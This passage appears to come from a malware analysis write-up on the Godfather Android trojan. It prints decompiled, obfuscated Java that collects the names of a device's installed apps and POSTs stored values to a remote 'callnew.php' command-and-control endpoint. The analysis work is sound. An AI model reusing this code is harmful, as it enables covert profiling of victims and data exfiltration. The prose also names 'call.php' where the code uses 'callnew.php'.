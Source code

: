 ```Java

   public static String Osnabruck(Context context) {
        bowfin = HttpUrl.FRAGMENT_ENCODE_SET;
        try {
            List<PackageInfo> b = context.getPackageManager().getInstalledPackages(0);
            for (int i = 0; i < b.size(); i++) {
                PackageInfo p = b.get(i);
                ApplicationInfo applicationInfo = p.applicationInfo;
                if ((applicationInfo.flags & 1) == 0) {
                    String a = applicationInfo.packageName;
                    bowfin += a + ("|||");
                }
            }
            Tamarix.Sandrakottos(context, ("alt"), bowfin);
        } catch (Exception e) {
        }
        return bowfin;
    }


```

Tamarix.Sandrakottos(context, ("alt"), bowfin);

In the shared preference we can see:

{{< image src="img/2025-03-14-godfather-android-analysis/img26.png" caption="Figure 26 - Shared Preference detail" wrapper="text-center">}} 


That is because we use a New Emulator with no application installed.


#### Malacostraca


{{< image src="img/2025-03-14-godfather-android-analysis/img27.png" caption="Figure 27 - Malacostraca Class" wrapper="text-center">}} 

This function retrieves the value associated with the key “ky” from the SharedPreference. 

 

It Inserts an addition parameter with key “ick” and value “true” into the params map, 

retrieves the value associated with key “min” from the shared preferences using the bedamned method. 

After that it passes the retrived value to the Uriiah function to obtain the base URL. 

Adds “call.php” to the obtained base url. 

Call undissuadably method to perform an HTTP POST request to this URL with the params. 

{{< image src="img/2025-03-14-godfather-android-analysis/img28.png" caption="Figure 28 - Request Http" wrapper="text-center">}} 

```Java

public static void Malacostraca(Context context) {
    String effluvias = "ky";
    try {
        HashMap<String, String> params = new HashMap<>();
        
        params.put(effluvias, bedamned(context, effluvias));
        
        params.put("ick", "true");
        
        String url = Uriiah(bedamned(context, "min")) + "callnew.php";
        
        veepees.undissuadably(context, url, params);
```